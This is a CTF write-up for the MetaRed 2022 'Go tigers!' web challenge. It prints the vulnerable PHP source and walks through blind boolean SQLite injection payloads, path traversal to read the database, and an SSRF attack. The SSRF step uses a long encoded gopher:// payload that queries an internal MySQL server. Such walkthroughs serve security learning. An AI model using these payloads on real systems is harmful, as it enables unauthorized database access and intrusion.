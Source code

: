# Writeup-Go-Tigers-
### MetaRed CTF Argentina 2022

## Go tigers!
 <img src=img/19.png class="center">

When visiting the website, we can see two input fields. The first one require an id.If the id is valid it displays the id and the username else it displays nothing.The second field was an input that read the content of a file using the function file_gets_content().

 <img src=img/1.png class="center">

We tried to trigger an error using a quote and fortuantely we got an error from the database.The error reveals that a function called supersafeWaf() was filtering our input.
<img src=img/2.png class="center">

(I discovered later that this was useless since my friend LAM managed to read the admin password from ../tiger.db using the second input , but hey i enjoyed tortuaring myself to manually perform a blind boolean based sql injection and that was fun!)

 <img src=img/18.png class="center">

Looking at the code of "index.php", we find out that ther uspersafeWaf() function actually filters some statements like 'select' , 'order' .. 
```
<?php
ini_set('display_errors', 'on');

class TigerClass {
    public function superSafeWAF($sql) {
        $pdo = new SQLite3('../tiger.db', SQLITE3_OPEN_READONLY);
        $safesql = implode (['select',  'union', 'order', 'by', 'from', 'group', 'insert'], '|');
        $sql = preg_replace ('/' . $safesql . '/i', '', $sql);
        $query = 'SELECT id, user FROM tigers WHERE id=' . $sql . ' LIMIT 1';
        $tigers = $pdo->query($query);
        $sol = $tigers->fetchArray(SQLITE3_ASSOC);
        if ($sol) {
            return $sol;
        }
        return false;
        }
    }
```
 <img src=img/2.png class="center">

We tried out some SQLi payloads to see that this was a blind boolean based sql injection , with an sqlite3 database.
Our payload was **1 AND CASE WHEN substr(user,1,1)='a' THEN 1 ELSE load_extension(1) END**
 
 <img src=img/5.png class="center">

Since the username having an id 1 was 'admin' we didn't get an error and the data corresponding was displayed. 
Our final payload was **1 AND CASE WHEN substr(pass,1,1)='a' THEN 1 ELSE load_extension(1) END**
 
 <img src=img/20.png class="center">

--> username : admin 
--> password : This_password_is_very_safe!

We discovered that there is an admin page (admin.php) that require a username and a password.So paasing those creds to the form we got to the page :

 <img src=img/9.png class="center">

This time one input that gets an url was present and after reading the source code of the admin.php (using the second input field in the index.php) we decided to look for an SSRF: 

```
function str_contains($haystack, $needle) {
					return $needle !== '' && mb_strpos($haystack, $needle) !== false;
				}
				$not_protocol_smuggling = !str_contains(strtolower($_POST['post_url']),"file");

				if (isset($_SESSION['auth']) && isset($_POST['post_check']) && $not_protocol_smuggling) { exec(escapeshellcmd("timeout 5 curl " . escapeshellarg($_POST['post_url']) . " --output -"), $out); echo "<pre>"; print_r($out); echo "</pre>"; } ?>
			</div>
			<br>
			<!--Acordarse de Fixear el BD user juanperez  -->
		<h4>DB Status Check</h4>
			<div id="login">
				<form class="form-signin" action="<?php basename($_SERVER['PHP_SELF']); ?>" method="post" style="border:0px;">
				<input class="btn  btn-primary" type="submit" name='db_check' value = "Check" style='margin-top:10px;'/>
				</form>
				<?php if (isset($_SESSION['auth']) && isset($_POST['db_check'])) { exec('timeout 2 nc -z mysqlsafedb.com 3306 ; if [ $? -eq 0 ] ; then echo "Online"; else echo "Offline"; fi', $out); echo "<pre>"; print_r($out); echo "</pre>"; } ?>
			</div>
```


**What is SSRF?**
Server-Side Request Forgery (SSRF) refers to an attack wherein an attacker is able to send a crafted request from a vulnerable web application. SSRF is usually used to target internal systems behind firewalls that are normally inaccessible to an attacker from the external network.

All protocols other than file:// was valid since a delay of 5s took place. Reading the source code of the 'admin.php' once again a comment cought our attention **Acordarse de Fixear el BD user juanperez** which means 'Remember to Fix the BD user juanperez'
ehhhmmm ... So maybe there is another database running on internal!
our hypothese was confirmed when we saw the line of code **{ exec('timeout 2 nc -z mysqlsafedb.com 3306 ; if [ $? -eq 0 ] ; then echo "Online"; else echo "Offline"; fi', $out); echo "<pre>"; print_r($out);**. That means that the othe button was checking the whole time if this database is online or not. To communicate with this databse we decided to use the protocol **Gopher**.

**What is Gopher?**
Gopher is an application-layer protocol that provides the ability to extract and view Web documents stored on remote Web servers. Gopher was conceived in 1991 as one of the Internet’s first data/file access protocols to run on top of a TCP/IP network. It was developed at the University of Minnesota and is named after the school’s mascot.
We can use gopher:// to communicate with the MySQL database.

Basic agreement format: URL:gopher ://<host>:<port>/<gopher-path>_ Followed by TCP data flow
Tring the payload : **gopher://mysqlsafedb.com:3306/_Hello**
 
 <img src=img/11.png class="center">

Using gopherus, we were able to generate the following sql query : SELECT schema_name FROM information_schema.schemata
Our final payload was : **gopher://mysqlsafedb.com:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6a%75%61%6e%70%65%72%65%7a%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%34%00%00%00%03%73%65%6c%65%63%74%20%73%63%68%65%6d%61%5f%6e%61%6d%65%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%73%63%68%65%6d%61%74%61%01%00%00%00%01**
And the flag was the name of a database other than 'information_schema.schemata'

 <img src=img/16.png class="center">





 ## Some Ressources:

 - https://programming.vip/docs/ssrf-uses-gopher-to-attack-mysql-and-intranet.html
 - https://github.com/tarunkant/Gopherus



